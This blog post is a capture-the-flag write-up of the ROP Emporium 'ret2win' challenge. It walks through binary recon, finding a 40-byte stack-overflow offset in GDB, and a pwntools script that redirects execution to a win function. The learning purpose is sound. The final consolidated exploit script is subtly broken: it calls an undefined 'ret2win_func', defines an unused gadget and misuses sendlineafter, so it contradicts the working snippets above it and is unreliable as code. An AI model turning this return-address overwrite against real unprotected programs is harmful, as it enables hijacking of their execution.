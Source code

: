 ```yaml
---
layout: post
title:  "ROP Emporium - ret2win"
date:   "2023-05-11"
tags: [pwn, ropemporium]
usemathjax: false
---
```

# Intro
After discovering how much I enjoyed the pwn CTF category, I started looking into ways to improve my skills. The first thing that was immediately clear was just how expansive the category of binary exploitation is. From buffer overflows to heap exploitation, and everything in between, it was quite overwhelming at first. Not to mention I had very little familiarity with how computer architecture worked in the first place. As I worked to get my bearings, I discovered [https://ropemporium.com](https://ropemporium.com). This website contains eight challenges designed to teach the basics of a fundamental binary exploitation technique, Return Oriented Programming or ROP. My goal is to create a writeup of each ROP Emporium challenge every week for eight weeks. Before I get into the first challenge, I would like to give a shoutout to [CryptoCat](https://www.youtube.com/channel/UCEeuul0q7C8Zs5C8rc4REFQ) on YouTube. His videos  on these challenges helped me extensively, whether it was debugging a solution or further understanding why something worked the way it did, his help was invaluable. Without further ado, lets have a look at the first challenge, called `ret2win`. 

# Recon
When we click on the challenge on the website, we are presented with a little introduction and some download links for various versions of the challenge. We will  solving the `x86-64` bit version in this writeup. Once the file is downloaded, we can unzip it and do some recon on the binary which is called `ret2win`. We will use a tool called `checksec`, which will analyze the binary for us to view some of its protections.
```bash
$ checksec --file=ret2win
```

Now we know what protections are enabled on the binary. We have `Partial RELRO`, `No Stack Canary`, `NX Enabled`, and `No PIE`. No canary and no PIE will make overflowing the buffer pretty easy since there is nothing stopping us from smashing the stack and addresses will remain constant. Because NX is enabled we will not be able to execute off the stack which means no shellcode off the stack. RELRO will not come into play in this challenge. According to the challenge description, in order to get the flag read to us, we will want to find a way to either get a shell to read it ourselves, or find a way for the program to display it out to us. The description also hints at a suspiciously named function called `ret2win()`. This is a hint that perhaps by calling this function we can have the flag printed out to us. 

In order to verify if that is the case, lets have a look at this program in GDB. I will be using a GDB plugin called `pwndbg` which adds some extra features. It can be checked out [here](https://github.com/pwndbg/pwndbg). Once we load the binary into GDB, we can have a look at the functions with `info functions`. 

![Functions](pwndbg output.png)

Notable functions include a `main()` function, a `pwnme()` function, and a `ret2win()` function. Let's have a look inside these functions using GDB's disassemble functionality to try and get a good gauge of how this program is layed out. Let's start with the `main()` function. To disassemble a function in GDB we can use `disassemble main`. 

![main disassembly](main_disassembly.png)

Looking at the `main()` function, we can see that it calls several functions, namely `setvbuf()`, `puts()`, and the `pwnme()` function. Nothing seems overtly exploitable here, but the notable thing is that this main function is calling `pwnme()`. This must be where our vulnerability is, as the name of the function would suggest. Let's have a look at that function next. 

![pwnme disassembly](pwnme disassembly.png)

Several things are happening here, most notably there is a call to `read()`. Now we can step back a bit and make a few infrences. When we run the program, it tells us the following:

![running program](running program.png)

This must mean that the `read()` function is allowing us to read in 56 bytes while only allocating 32 bytes of stack space which would allow us to smash the stack and gain control of the program execution. So, now that we know we have control over the execution of the program, what next? Well we know we have to have the flag printed out to us somehow so let's hop back into GDB and have a look at that `ret2win()` function. 

![ret2win disassembly.png](ret2win disassembly.png)

We can see that the `ret2win()` function is calling system with an argument located at `0x400943`. Remember as per x86-64 calling conventions the first argument for functions called is stored in the `rdi` register and we can see an argument being moved into the `edi` register just before system is called, which is the lower order version of the `rdi`. What could that argument be? Judging from the name of the challenge and the description, it could be something like `cat flag.txt` or `/bin/sh`. Either of these would allow us to read the flag. 

So, now we know that we have control over the programs execution via a buffer overflow and we need to call `ret2win()` to (hopefully) print out the flag. 

# Exploitation
The goal of our exploit will be to overflow the buffer just enough to gain control of the `rip`, which is the register that holds the address of the current instruction the program is executing. If we can overwrite `rip` with, lets say the address of the `ret2win()` function, we can control program execution to call `ret2win()` which was never meant to be called. We will use the principle called ROP (duh) which means we will leverage the control of return addresses to redirect the execution of the program to where we want it. So now we know two things; we will need to overflow the buffer enough to control `rip` and we will need the address of `ret2win()`. Now, lets solve this challenge! 

To find out how many characters we will need to gain control of the `rip`, we can use `pwndbg` to generate a De Bruijn sequence with the command:
```bash
cyclic 50
```

The nature of the De Bruijn sequence means that we can find out how many characters there are up to a certain point in the sequence. This means we will be able to pass this into the program, watch it segfault, and then pinpoint exactly how many characters of input it takes to reach the `rip`. Let's have a look at this in GDB. 

After entering in our cyclic pattern, we can see that the program crashed! We can see GDB's output below. 

![Crashed program.png](Crashed program.png)

From our cyclic pattern we can see that part of our pattern was left in the `rip`! This is exactly what we wanted. To find out how many characters it took, we can do:
```bash
$ cyclic -l faaaaaaa
```

This returns 40, which means that it took 40 characters to overflow the buffer and leak into `rip`. Ultimately we will need to send in 40 characters to overflow the buffer right up to we get to `rip`, and then pass in the address of `ret2win()` so that we can successfully redirect program execution to that function. We can now start crafting an exploit script. I will be using a popular python library for pwn challenges called `pwntools`. It comes with some amazing functionality to exploit these types of challenges. This challenge will only be scratching the surface. 

First we will import the pwn tools library and define our binary. We will use `context.binary` so that pwntools knows its an x86-64 binary and it take care of things like endianness for us. We will use an `ELF()` object so that pwntools can access all of the symbols and such for our binary. 

```python
from pwn import *

elf = context.binary = ELF("./ret2win")
```

Next we will define a couple more things. We will make our binary a process so that pwntools can run it and send input in, and we will define our offset. 

```python
p = elf.process()

offset = 40
```

Then we can make note of the address of our `ret2win()` function. This address can be obtained from GDB, just like we were doing before. 

```python
ret2win = 0x400756
```

Now we can now construct our payload. We can send in 40 a's to smash the stack just enough and then send in the address of our `ret2win()` function so that `rip` will point to the `ret2win` function. To do this we will use the `flat()` function so that our payload will be converted into bytes. Since we specified the context of the binary, pwntools will automatically send our payload in the proper endianness and pad to the proper address size. 

```python
payload = flat([
	offset * 'a',
	ret2win
])
```

Then we can send this to the program/process using the line:

```python
p.sendline(payload)
```

Finally we can use interactive mode to view any output that the program spit back at us. Like our flag! 

```python
p.interactive()
```

Our final payload will look something like this:

```python
from pwn import *

elf = context.binary = ELF("./ret2win")

p = elf.process()

offset = 40

ret2win = 0x400756

rop_gadget = 0x000000000040053e
payload = flat([
	offset * b'A',
	ret2win_func
	])

p.sendlineafter(payload)

p.interactive()
```

Once we run this script, we should get the flag! 

![final output](final output.png)

And we do! 

This was the first of the ROP Emporium challenges. Like I mentioned previously, I plan on writing up one challenge per week. As I go I will phase out things I covered in previous writeups to avoid redundancy. These challenges were very fun to solve and really helped me learn more about binary exploitation. Hope you enjoyed! 



